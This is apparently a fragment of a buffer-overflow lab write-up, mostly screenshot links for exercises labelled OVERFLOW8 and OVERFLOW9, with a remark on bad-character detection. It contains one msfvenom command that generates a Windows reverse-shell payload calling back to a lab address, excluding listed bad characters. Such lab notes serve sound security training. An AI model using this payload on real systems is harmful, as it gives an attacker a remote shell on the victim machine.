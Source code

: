 `msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x1d\x2e\xc7\xee"`

![of8-admin](assets/markdown-img-paste-20210904112639827.png)

## OVERFLOW9
![of9-offset](assets/markdown-img-paste-20210904112818934.png)

![of9-badchar](assets/markdown-img-paste-20210904112928311.png)

![of9-badchard2](assets/markdown-img-paste-20210904113228337.png)

40 shows up because 3f was bad.

![of9-complete](assets/markdown-img-paste-20210904113849373.png)
